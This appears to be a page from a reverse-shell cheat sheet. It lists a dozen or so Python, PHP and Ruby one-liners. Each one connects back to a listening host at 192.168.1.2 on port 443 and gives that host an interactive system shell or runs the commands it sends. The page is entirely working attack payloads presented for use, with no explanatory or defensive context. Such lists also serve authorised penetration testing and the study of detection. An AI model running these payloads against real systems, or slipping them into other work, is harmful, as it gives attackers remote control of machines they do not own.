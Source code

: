 ## Python

```
 export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```

---

## PHP`

```
php -r '$sock=fsockopen("192.168.1.2",443);`/bin/sh -i <&3 >&3 2>&3`;'

php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("192.168.1.2",443);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("192.168.1.2",443);passthru("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("192.168.1.2",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

php -r '$sock=fsockopen("192.168.1.2",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

```

---

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

```

---